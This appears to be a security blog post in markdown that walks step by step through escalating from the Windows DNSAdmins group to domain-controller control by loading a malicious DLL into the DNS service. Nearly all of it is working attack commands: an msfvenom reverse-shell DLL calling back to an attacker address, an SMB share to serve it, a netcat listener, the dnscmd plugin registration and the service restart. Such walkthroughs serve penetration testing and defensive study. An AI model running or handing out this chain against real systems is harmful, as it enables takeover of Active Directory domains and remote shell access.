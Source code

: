 ```yaml
---
title: "Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection"
layout: post
author: Abhinav Gyawali
date: 2019-12-21
tags: [privesc, windows, dnsadmin]
permalink: /windows-privilege-escalation-dnsadmin-to-domaincontroller/
---
```


Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:
1. Making a dll payload that sends a reverse shell back to our machine with `msfvenom`.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a `netcat` listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#### Making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#### Serving the file using SMB Server

We use `smbserver.py`, that comes with `Python3-Impacket`.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

#### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

#### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.
